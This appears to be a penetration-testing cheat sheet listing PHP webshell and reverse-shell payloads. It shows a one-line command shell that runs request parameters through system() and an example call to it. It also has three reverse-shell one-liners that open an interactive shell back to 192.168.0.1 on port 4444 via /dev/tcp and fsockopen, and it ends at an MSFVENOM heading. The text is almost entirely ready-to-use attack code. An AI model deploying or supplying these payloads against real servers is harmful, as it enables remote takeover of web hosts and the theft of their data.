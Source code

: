 ### Kali Default PHP CMD Shell

Kali Default PHP CMD Shell

```
cat /usr/share/webshells/php/php-backdoor.php

```

### CMD Shell

CMD Shell

```
<?php echo system($_REQUEST["cmd"]); ?>

```

Call the CMD shell:
[http://192.168.0.1/cmd_shell.php?cmd=whoami](http://192.168.0.1/cmd_shell.php?cmd=whoami)

### White WinterWolf Webshell

WhiteWinterWolf Webshell

[https://github.com/WhiteWinterWolf/wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

### PHP Reverse Shell

PHP Reverse Shell

Version 1

```
<?php echo shell_exec("/bin/bash -i >& /dev/tcp/192.168.0.1/4444 0>&1");?>

```

Version 2

```
<?php $sock=fsockopen("192.168.0.1", 4444);exec("/bin/sh -i <&3 >&3 2 >& 3");?>

```

As Command

```
php -r '$sock=fsockopen("192.168.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

```

## MSFVENOM

### Windows Binary (.exe)
